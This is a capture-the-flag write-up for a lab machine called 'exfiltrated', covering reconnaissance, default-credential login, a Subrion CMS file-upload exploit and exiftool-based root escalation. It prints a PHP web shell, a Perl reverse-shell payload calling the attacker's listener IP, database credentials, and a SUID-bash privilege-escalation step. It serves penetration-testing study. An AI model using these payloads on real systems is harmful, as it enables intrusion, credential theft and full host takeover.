









Writeup by wook413
As per my standard methodology, I began the engagement with a three-stage Nmap scan: first, a full 65,535 TCP port sweep to identify open ports; second, a targeted service enumeration for version details; and finally, a UDP scan of the top 10 ports.
x
┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:43 UTCNmap scan report for 192.168.207.163Host is up (0.054s latency).Not shown: 65533 closed tcp ports (reset)PORT STATE SERVICE22/tcp open ssh80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 16.55 secondsx
┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sC -sV -p 22,80 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:44 UTCNmap scan report for 192.168.207.163Host is up (0.047s latency).
PORT STATE SERVICE VERSION22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)| ssh-hostkey: | 3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)| 256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)|_ 256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)80/tcp open http Apache httpd 2.4.41 ((Ubuntu))|_http-title: Did not follow redirect to <http://exfiltrated.offsec/>| http-robots.txt: 7 disallowed entries | /backup/ /cron/? /front/ /install/ /panel/ /tmp/ |_/updates/|_http-server-header: Apache/2.4.41 (Ubuntu)Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 8.76 secondsxxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sU --top-ports 10Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:44 UTCNmap scan report for 192.168.207.163Host is up (0.051s latency).
PORT STATE SERVICE53/udp closed domain67/udp closed dhcps123/udp closed ntp135/udp closed msrpc137/udp closed netbios-ns138/udp closed netbios-dgm161/udp closed snmp445/udp closed microsoft-ds631/udp closed ipp1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 4.87 secondsThe Nmap results indicated that only ports 22 and 80 were open. Before diving into the HTTP service on port 80, I ran the http-enum Nmap script to identify potential “quick wins” or hidden directories.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sV --script=http-enum -p 80 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 20:45 UTCNmap scan report for 192.168.207.163Host is up (0.050s latency).
PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.41 ((Ubuntu))|_http-server-header: Apache/2.4.41 (Ubuntu)| http-enum: | /robots.txt: Robots file| /.gitignore: Revision control ignore file|_ /changelog.txt: Version field
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 13.15 secondsUpon accessing the target IP via a web browser, I observed a redirection to the exfiltrated.offsec domain. To resolve this, I mapped the target IP to the domain in my /etc/hosts file.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ echo "192.168.207.163 exfiltrated.offsec" | sudo tee -a /etc/hosts[sudo] password for kali: 192.168.207.163 exfiltrated.offsecThe robots.txt file was found to contain several interesting directories.
xxxxxxxxxxUser-agent: *Disallow: /backup/Disallow: /cron/?Disallow: /front/Disallow: /install/Disallow: /panel/Disallow: /tmp/Disallow: /updates/I attempted to log in at the /login page using the default credentials admin:admin , which successfully granted me access.

logged in as Administrator
After authenticating, I confirmed through the /panel dashboard that the service was running Subrion CMS version 4.2.1

A search for “Subrion 4.2.1” on Searchsploit revealed both XSS and Arbitrary File Upload vulnerabilities. While XSS is a significant finding in real-world pentesting, I prioritized the file upload vulnerability as it is more effective in a CTF environment.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ searchsploit subrion 4.2.1 -------------------------------------------------------------------------------------------------------- --------------------------------- Exploit Title | Path-------------------------------------------------------------------------------------------------------- ---------------------------------Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting | php/webapps/47469.txtSubrion CMS 4.2.1 - 'avatar[path]' XSS | php/webapps/49346.txtSubrion CMS 4.2.1 - Arbitrary File Upload | php/webapps/49876.pySubrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin) | php/webapps/50737.txtSubrion CMS 4.2.1 - Cross-Site Scripting | php/webapps/45150.txtSubrion CMS 4.2.1 - Stored Cross-Site Scripting (XSS) | php/webapps/51110.txt-------------------------------------------------------------------------------------------------------- ---------------------------------Shellcodes: No ResultsI downloaded the Arbitrary File Upload exploit script and provided the valid credentials, but the script initially failed with a “Login Failed” message.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 49876.py -u <http://exfiltrated.offsec/panel> -l 'admin' -p 'admin'[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422
[+] Trying to connect to: <http://exfiltrated.offsec/panel>[+] Success![+] Got CSRF token: lqPBp7ENpc5QU0tgJd6KDQQYqjQFc44znS4pT5SU[+] Trying to log in...
[x] Login failed... Check credentialsUpon reviewing the exploit’s source code, I discovered that it bypassed security filters by changing the payloads’ extension to .phar .

Navigating to the Content → Uploads tab, I manually uploaded a simple one-line PHP payload named shell.phar .

xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ cat shell.phar <?php system($_REQUEST['cmd']); ?>After verifying its execution, I uploaded a more robust Pentest Monkey PHP reverse shell, also renamed with a .phar extension.


www-dataTo ensure a stable and interactive session, I set up a listener using penelope and successfully received a reverse shell connection.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 penelope.py -p 80 [+] Listening for reverse shells on 0.0.0.0:80 → 127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)[+] Got reverse shell from exfiltrated~192.168.207.163-Linux-x86_64 😍 Assigned SessionID <1>[+] Attempting to upgrade shell to PTY...[+] Shell upgraded successfully using /usr/bin/python3! 💪[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 [+] Logging to /home/kali/.penelope/sessions/exfiltrated~192.168.207.163-Linux-x86_64/2026_01_29-21_53_56-882.log 📜──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────www-data@exfiltrated:/$ whoamiwww-datawww-data@exfiltrated:/$ iduid=33(www-data) gid=33(www-data) groups=33(www-data)www-data@exfiltrated:/$ hostnameexfiltratedwww-data@exfiltrated:/$ Acting as the www-data user, I began manual enumeration of the system.
xxxxxxxxxxwww-data@exfiltrated:/var/www/html/subrion$ cat .gitignore .idea.php_cs.cachebackup/*!backup/.htaccessincludes/config.inc.phpmodules/*!modules/blog!modules/fancybox!modules/kcaptcha*node_modulestemplates/*!templates/_common!templates/kickstarttmp/*!tmp/.htaccessuploads/*!uploads/.htaccessI discovered MySQL credentials within the config.inc.php file located in /var/www/html/subrion/includes .
xxxxxxxxxxwww-data@exfiltrated:/var/www/html/subrion/includes$ cat config.inc.php <?php/* * Subrion Open Source CMS 4.2.1 * Config file generated on 10 June 2021 12:04:54 */
define('INTELLI_CONNECT', 'mysqli');define('INTELLI_DBHOST', 'localhost');define('INTELLI_DBUSER', 'subrionuser');define('INTELLI_DBPASS', 'target100');define('INTELLI_DBNAME', 'subrion');define('INTELLI_DBPORT', '3306');define('INTELLI_DBPREFIX', 'sbr421_');
define('IA_SALT', '#5A7C224B51');
// debug mode: 0 - disabled, 1 - enableddefine('INTELLI_DEBUG', 0);I successfully authenticated to MySQL using the discovered credentials and retrieved the admin user’s password hash. However, since the hash did not appear to be in the rockyou.txt wordlist, I halted the cracking attempt and continued my enumeration.
x
www-data@exfiltrated:/var/www/html/subrion/includes$ mysql -h localhost -u subrionuser -pEnter password: Welcome to the MariaDB monitor. Commands end with ; or \\g.Your MariaDB connection id is 309Server version: 10.3.39-MariaDB-0ubuntu0.20.04.2 Ubuntu 20.04
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.
MariaDB [(none)]> MariaDB [subrion]> select * from sbr421_members;+----+--------------+----------+--------------------------------------------------------------+--------------------------+---------+--------+---------------------+---------------------+---------------------+-----------+---------------+--------+---------+-------+-----------+----------+---------+-------+----------+-------+----------------+---------------+----------+----------------+--------------+-----------+-----------------+---------------+-------------------+----------------+------------------+----------------+| id | usergroup_id | username | password | email | sec_key | status | date_reg | date_update | date_logged | views_num | fullname | avatar | website | phone | biography | facebook | twitter | gplus | linkedin | funds | disable_fields | admin_columns | featured | featured_start | featured_end | sponsored | sponsored_start | sponsored_end | sponsored_plan_id | api_push_token | api_push_receive | email_language |+----+--------------+----------+--------------------------------------------------------------+--------------------------+---------+--------+---------------------+---------------------+---------------------+-----------+---------------+--------+---------+-------+-----------+----------+---------+-------+----------+-------+----------------+---------------+----------+----------------+--------------+-----------+-----------------+---------------+-------------------+----------------+------------------+----------------+| 1 | 1 | admin | $2y$10$yLtIS38vqzWRmZPY3RxqsetMJRRi6VzaiKdCU53R/bpa4AHhXyZ6G | admin@exfiltrated.offsec | | active | 2021-06-10 12:04:54 | 2021-06-10 12:04:54 | 2026-01-29 16:15:03 | 1 | Administrator | | | | | | | | | 0.00 | 0 | | 0 | NULL | NULL | 0 | NULL | NULL | 0 | | yes | en |+----+--------------+----------+--------------------------------------------------------------+--------------------------+---------+--------+---------------------+---------------------+---------------------+-----------+---------------+--------+---------+-------+-----------+----------+---------+-------+----------+-------+----------------+---------------+----------+----------------+--------------+-----------+-----------------+---------------+-------------------+----------------+------------------+----------------+x
┌──(kali㉿kali)-[~/Desktop]└─$ echo '$2y$10$yLtIS38vqzWRmZPY3RxqsetMJRRi6VzaiKdCU53R/bpa4AHhXyZ6G' > admin.hashxxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ hashcat --identify admin.hash The following 4 hash-modes match the structure of your input hash:
# | Name | Category ======+============================================================+====================================== 3200 | bcrypt $2*$, Blowfish (Unix) | Operating System 25600 | bcrypt(md5($pass)) / bcryptmd5 | Forums, CMS, E-Commerce 25800 | bcrypt(sha1($pass)) / bcryptsha1 | Forums, CMS, E-Commerce 28400 | bcrypt(sha512($pass)) / bcryptsha512 | Forums, CMS, E-CommerceIn the /opt directory, I found a suspicious script named image-exif.sh . This script was designed to process JPG files in the /var/www/html/subrion/uploads directory using exiftool and log the output to /opt/metadata
x
www-data@exfiltrated:/opt$ ls -latotal 16drwxr-xr-x 3 root root 4096 Jun 10 2021 .drwxr-xr-x 20 root root 4096 Jan 7 2021 ..-rwxr-xr-x 1 root root 437 Jun 10 2021 image-exif.shdrwxr-xr-x 2 root root 4096 Jan 29 21:45 metadataxxxxxxxxxxwww-data@exfiltrated:/opt$ cat image-exif.sh #07/06/18 A BASH script to collect EXIF metadata
echo -ne "\\\\n metadata directory cleaned! \\\\n\\\\n"
IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'FILE=`openssl rand -hex 5`LOGFILE="$META/$FILE"
echo -ne "\\\\n Processing EXIF metadata now... \\\\n\\\\n"ls $IMAGES | grep "jpg" | while read filename; do exiftool "$IMAGES/$filename" >> $LOGFILE done
echo -ne "\\\\n\\\\n Processing is finished! \\\\n\\\\n\\\\n"The installed version of exiftool was 11.88, which is a known vulnerable version.
xxxxxxxxxxwww-data@exfiltrated:/opt$ exiftool -ver11.88I found a Remote Code Execution exploit in the Exploit Database. This script automates the creation of a malicious JPG file embedded with a payload designed for this vulnerable version.

This exploit requires djvulibre-bin to be installed to proerly craft the metadata.

xxxxxxxxxxsudo apt-get install djvulibre-bin┌──(kali㉿kali)-[~/Desktop]└─$ python3 50911.py -h /home/kali/Desktop/50911.py:61: SyntaxWarning: invalid escape sequence '\\c' payload = "(metadata \\"\\c${"UNICORD Exploit for CVE-2021-22204
Usage: python3 exploit-CVE-2021-22204.py -c <command> python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>] python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>] python3 exploit-CVE-2021-22204.py -h
Options: -c Custom command mode. Provide command to execute. -s Reverse shell mode. Provide local IP and port. -i Path to custom JPEG image. (Optional) -h Show this help menu.Although the original exploit often defaults to a reverse shell, I observed stability issues with that approach in this environment. Therefore, I modified the payload to execute a command that sets the SUID bit on the /bin/bash binary (chmod +s /bin/bash) instead. This ensured a more reliable path to privilege escalation.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 50911.py -s 192.168.45.236 443
_ __,~~~/_ __ ___ _______________ ___ ___ ,~~`( )_( )-\\| / / / / |/ / _/ ___/ __ \\/ _ \\/ _ \\ |/| `--. / /_/ / // // /__/ /_/ / , _/ // /_V__v___!_!__!_____V____\\____/_/|_/___/\\___/\\____/_/|_/____/.... RUNNING: UNICORD Exploit for CVE-2021-22204PAYLOAD: (metadata "\\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('192.168.45.236')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")RUNTIME: DONE - Exploit image written to 'image.jpg'I uploaded the malicious image.jpg to the same uploads directory used for the initial access.

After a short wait for the script to execute, I confirmed that the SUID bit was successfully applied to /bin/bash .
xxxxxxxxxxwww-data@exfiltrated:/var/www/html/subrion/uploads$ ls -l /bin/bash-rwsr-sr-x 1 root root 1183448 Jun 18 2020 /bin/bashrootFinally, I executed /bin/bash -p to obtain a root shell.
xxxxxxxxxxwww-data@exfiltrated:/var/www/html/subrion/uploads$ /bin/bash -pbash-5.0# whoamirootFound proof.txt
xxxxxxxxxxbash-5.0# cd /rootbash-5.0# ls -latotal 28drwx------ 4 root root 4096 Jan 30 01:25 .drwxr-xr-x 20 root root 4096 Jan 7 2021 ..lrwxrwxrwx 1 root root 9 Jun 10 2021 .bash_history -> /dev/null-rw-r--r-- 1 root root 3106 Dec 5 2019 .bashrc-rw-r--r-- 1 root root 161 Dec 5 2019 .profiledrwx------ 2 root root 4096 Jan 7 2021 .ssh-rwx------ 1 root root 33 Jan 30 01:25 proof.txtdrwxr-xr-x 3 root root 4096 Jan 7 2021 snapbash-5.0# cat proof.txtbd7...Found local.txt
xxxxxxxxxxbash-5.0# cd /home/coaran/bash-5.0# ls -latotal 24drwx--x--x 2 coaran coaran 4096 Jun 10 2021 .drwxr-xr-x 3 root root 4096 Jun 10 2021 ..lrwxrwxrwx 1 root root 9 Jun 10 2021 .bash_history -> /dev/null-rw-r--r-- 1 coaran coaran 220 Feb 25 2020 .bash_logout-rw-r--r-- 1 coaran coaran 3771 Feb 25 2020 .bashrc-rw-r--r-- 1 coaran coaran 807 Feb 25 2020 .profile-rwxr--r-- 1 coaran coaran 33 Jan 30 01:33 local.txtbash-5.0# cat local.txt502...